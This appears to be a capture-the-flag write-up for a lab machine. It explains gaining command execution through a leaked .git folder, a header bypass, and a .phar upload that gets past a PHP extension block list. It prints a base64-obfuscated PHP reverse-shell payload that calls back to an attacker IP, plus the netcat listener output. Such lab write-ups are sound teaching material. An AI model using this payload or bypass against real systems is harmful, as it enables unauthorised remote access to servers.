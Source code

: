 ## Command execution through subdomain
Download the .git folder that was found during enumeration and use an application that can view past commits to see some source code...
```php
#.htaccess
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
Set a custom header like ```.htaccess``` says to and try browsing to the ```dev.siteisup.htb```
![[Pasted image 20221022215643.png]]
A web page that is similar to the one that was seen before, but not identical.
What's more, the ```.git``` directory that was leaked exposed source code for this site...
Checking out the source code (specifically checker.php) shows that the application will take a user  provided file and write it to disk before doing some processing on it and deleting it...
This is a classing php command execution angle, but the source code does have some checks in place.
```php
$file = $_FILES['file']['name'];
	
	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}
```
Thankfully there are no checks on the contents of the file and the devs chose to use a block list instead of an allow list. The block list would work, but it doesn't cover every extension that the server will execute. Namely, .phar files.
![[Pasted image 20221022220300.png]]
Another problem with the app is that it deletes uploaded files after the app has checked whether the sites in the file are up or not. Since this exploit depends on being able to navigate to the file and execute it before the server deletes it, that could be a problem. Luckily there is an easy fix. After the php code that is to be executed, add a URL pointing back to the attacker box. Then, start a net cat listener on port 80. Net cat will keep the connection alive which will allow for enough time to manually navigate to the file that was wrote to disk and execute it. Send the request and navigate to the uploaded file in ```/uploads```.
![[Pasted image 20221022220621.png]]
Normally this would be easy RCE, but the devs made it a touch more difficult by disallowing the most common system functions.
![[Pasted image 20221022220745.png]]
Yuck. Luckily, like the block list on file extensions, the developers didn't disable *all* of the functions that can be used to achieve OS commands.
My reverse shell payload: 
```php
# The base64 glob decodes to "bash  -i >& /dev/tcp/10.10.14.4/9001  0>&1"
<?php echo proc_close(proc_open("echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYx | base64 -d | bash",array(),$something)); ?>
```
Set up a listener on the attacker box and follow the same steps from before to catch a shell as a low-priv user.
```bash
$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.177] 56654
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/7696b028f71b324d4c2125c61b531af8$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```